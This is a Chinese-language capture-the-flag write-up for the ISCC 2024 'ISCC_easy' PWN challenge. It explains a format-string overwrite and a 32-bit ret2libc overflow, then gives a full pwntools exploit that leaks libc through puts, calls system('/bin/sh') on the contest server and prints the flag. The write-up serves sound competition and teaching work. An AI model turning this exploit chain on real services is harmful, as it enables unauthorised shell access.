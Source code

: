# ISCC2024 WriteUp

GX-rainbow + 杨智林 + 3436865331@qq.com

# 练武题PWN——ISCC_easy分析

来自[练武题 | ISCC 2024 (isclab.org.cn)](https://iscc.isclab.org.cn/challenges#ISCC_easy)

简单看一下，这是一道ret2libc题，外加了一个格式化字符串漏洞绕过，我们来开始checksec一下吧

![image-20240509144702418](image/image-20240509144702418.png)

![image-20240509144418906](image/image-20240509144418906.png)

用32位IDA打开，可以看到存在格式化字符串漏洞，x必须等于5才能进入welcome函数，所以利用执行任意地址写，把x修改成我们想要的

![image-20240509144606660](image/image-20240509144606660.png)

继续跟进welcome函数，可以看到read存在溢出，溢出长度0x100-0x90=0x70，由于程序里没有可利用的系统调用和"/bin/sh"，所以进行常规ret2libc操作

![image-20240509145000641](image/image-20240509145000641.png)

# exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='i386',log_level='debug')
p=remote('182.92.237.102',10013)
#p=process('./ISCC_easy')
elf=ELF('./ISCC_easy')
libc=ELF('./libc6-i386_2.31-0ubuntu9.14_amd64.so')
x=0x804C030	#要修改的地址
payload1=flat(b'%5c%6$na',p32(x))
p.sendlineafter('fun!\n',payload1)
#gdb.attach(p)
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
libc_puts=libc.sym['puts']
ret_addr=elf.sym['welcome']
payload2=flat(cyclic(0x94),p32(puts_plt),p32(ret_addr),p32(puts_got))
p.sendlineafter('Input:\n',payload2)
puts_addr=u32(p.recv(4))
#print(hex(puts_addr))
base=puts_addr-libc_puts	#偏移
#print(hex(base))
system_addr=base+libc.sym['system']
bin_sh=base+0x18C363	#libc中的字符串"/bin/sh"地址
#print(hex(system_addr))
payload3=flat(cyclic(0x94),p32(system_addr),p32(ret_addr),p32(bin_sh))
p.sendlineafter('Input:\n',payload3)
p.interactive()
```

拿到flag

```
ISCC{IsCu4w4AdYDWZnVyGGRPAdz8wDfxC5PUhYos}
```

